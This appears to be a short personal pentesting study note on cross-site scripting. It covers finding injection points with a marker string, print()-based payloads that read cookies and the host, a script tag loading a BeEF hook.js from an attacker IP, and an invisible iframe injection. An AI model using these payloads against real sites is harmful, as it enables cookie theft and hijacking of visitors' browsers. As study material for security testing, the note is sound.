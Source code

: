 ## XXS

1. Detect XXS

Submit special characters and see if they are later present in the source code

`xpyxpy " ; < > `


Then look for `xpyxpy` in source code to identify injection points.

```html
<td> John</td><td>I would eat tacos here every day if I could!</td></tr><tr><td> ok</td><td>doki</td></tr><tr><td> fg</td><td>"xpyxpy ; < > ' '</td></tr>	
```


2. Confirm XXS

Alert() is dead: https://portswigger.net/research/alert-is-dead-long-live-print

Use print() instead or use only firefox browser for testing. But this would fail if user uses Chrome and its derivates.

Payloads: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
#get document cookies

<script>print(document.cookie)</script>

#get host ip
<script>print(window.location.host)</script>

```
## Script from file
For instance can be used to hook to BeeF browser hijacker.
```
<script src="http://192.168.119.xxx:3000/hook.js"></script>
```

## iframe injection

* Invisible iframe can be inserted into unsanitzed input

```
<iframe src=http://google.com height=”0” width=”0”></iframe>
```
This can be however filtered out by user's browser

## Cookies manipulation

### Important security parameters

* Secure: only send the cookie over HTTPS. This protects the cookie from being sent in cleartext and captured over the network.
